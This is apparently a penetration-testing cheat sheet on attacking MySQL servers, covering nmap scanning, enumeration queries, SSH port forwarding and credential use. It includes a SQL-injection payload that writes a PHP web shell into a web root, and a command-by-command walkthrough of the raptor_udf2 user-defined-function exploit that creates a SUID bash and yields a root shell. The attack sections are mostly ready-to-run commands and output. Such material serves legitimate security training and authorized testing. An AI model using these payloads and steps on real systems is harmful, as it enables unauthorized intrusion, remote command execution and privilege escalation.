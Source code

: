 # MySQL

MySQL usually runs on port `3306`.

Nmap targeted scan:

```bash
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse -p 3306 10.10.10.10
```

Check if MySQL port is open locally:

```bash
# Linux
netstat -tulpn
ss -lntu
lsof -i
```

## MySQL Client

Interact with local MySQL:

```bash
# Interactive login to database (asks for password)
mysql -u root -p

# Supply password via parameter (no space after -p is on purpose)
mysql -u root -pPassWord
mysql -u admin_user -p's0m3p4ss!§$'

# Execute query as one-liner (non-interactive)
mysql -u admin_user -p's0m3p4ss!§$' -e 'SHOW DATABASES;'
mysql -u admin_user -p's0m3p4ss!§$' -e 'USE mydatabase; SHOW TABLES;'
mysql -u admin_user -p's0m3p4ss!§$' -e 'USE mydatabase; SELECT * FROM users;'

# Use specific database
mysql -u admin_user -p's0m3p4ss!§$' -D mydatabase
mysql -u admin_user -p's0m3p4ss!§$' -D mydatabase -e 'SHOW TABLES;'
```


Interact with remote MySQL:

```bash
mysql --host 10.10.10.10 --port 3306 -u root -p
mysql -h 10.10.10.10 -P 3306 -u root -p
```

## Port Forward MySQL Port

Forward remote MySQL port to your local machine with SSH.

Let's assume you have SSH access to a remote host that runs MySQL, but that server is only accessible from localhost.

Example SSH credentials:

* user: myuser
* pass: iloveyou

```bash
# Local port forward example:
ssh -N -L 1337:127.0.0.1:3306 myuser@targethost
## Type SSH password: iloveyou
## Shell will "freeze"

# In another shell confirm local port 1337 is open
netstat -tulpn
##  127.0.0.1:1337  LISTEN

# Log into forwarded mysql server:
mysql -u root -p -h 127.0.0.1 -P 1337
```

For more info on port forwarding see [SSH Cheatsheet - Port Forwarding](./ssh.md#port-forwarding).

## Common Queries

Enumerate Database Engine and version:

```bash
# Common MySQL
SELECT VERSION();
SELECT version();
SELECT @@version;

# Oracle
SELECT banner from v$version;
```

Basic Navigation:

```bash
# show all accessible databases
SHOW DATABASES;

# switch to a particular database
USE website_db;

# list tables in current database
SHOW TABLES;
```

Dump table content:
```bash
SELECT * from users;
SELECT username, password from users;
```

Enumerate column names for a particular table:

```bash
# Common MySQL
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
SELECT TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE WHERE table_name = 'Users'

# Oracle
SELECT * FROM all_tab_columns
SELECT COLUMN_NAME,DATA_TYPE,TABLE_NAME FROM all_tab_columns WHERE TABLE_NAME='users'
```

Alternative way to enumerate table names:

```bash
# Common MySQL
SELECT * FROM information_schema.tables
SELECT TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE FROM information_schema.tables

# Oracle
SELECT * FROM all_tables
SELECT TABLE_NAME,TABLESPACE_NAME,OWNER FROM all_tables
```

Insert into table:

```bash
# Syntax
INSERT INTO table_name (column1, column2, column3, ...) VALUES (value1, value2, value3, ...); 

# Example
INSERT INTO users (username, password) VALUES ("new_admin", "5F4DCC3B5AA765D61D8327DEB882CF99"); 
```

Create file:

```bash
# basic syntax
SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php'

# sqli
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php'  -- -'
```

## MySQL Common Exploit - User-Defined Function (UDF)

* MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)
* Exploit: https://www.exploit-db.com/exploits/1518

This should also work with version 5+

Requirements:

* The mysqld process runs as root
* We can connect to MySQL as root user. Either because we do not have to supply a password. Or because we know the mysql root user password from enumeration.


Compile the exploit (preferably on target machine).

Regular x86:
```bash
gcc -g -c raptor_udf2.c
```

For x64:
```bash
gcc -g -c raptor_udf2.c -fPIC
```


Create a shared object from the exploit binary:
```bash
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

On the target, create the plugin/function and use it to make suid copy of bash:

```bash
$ mysql -u root -p
Enter password:
[...]
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/exploit/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
mysql> select do_system('cp /bin/bash /tmp/rootshell; chmod +s /tmp/rootshell');

```

To gain a root shell just execute the copied bash binary:

```bash
$ /tmp/rootshell -p
rootshell-4.1# whoami
root
```

-p flag to keep the SUID, bash would otherwise automatically drop it.


### Troubeshooting

If the file copied to the plugin directory has byte size 0, then mysql could not read your .so file. Pick a different source directory.

Depending on the version of MySQL you will have to change plugin directory. Here in version 5 it is `/usr/lib/mysql/plugin/`.

In the original exploit description they just write to `/usr/lib/` (presumably for version 4). Do some googling.

You might be able to figure out the plugin directory with:

```bash
mysql> show variables like 'plugin_dir';
```

### MariaDB

This alsow works for affected MariaDB versions, but the plugin directory is different:

```bash
/usr/lib/x86_64-linux-gnu/mariadb18/plugin/raptor_udf2.so
/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so
```

Might require some research on your end.

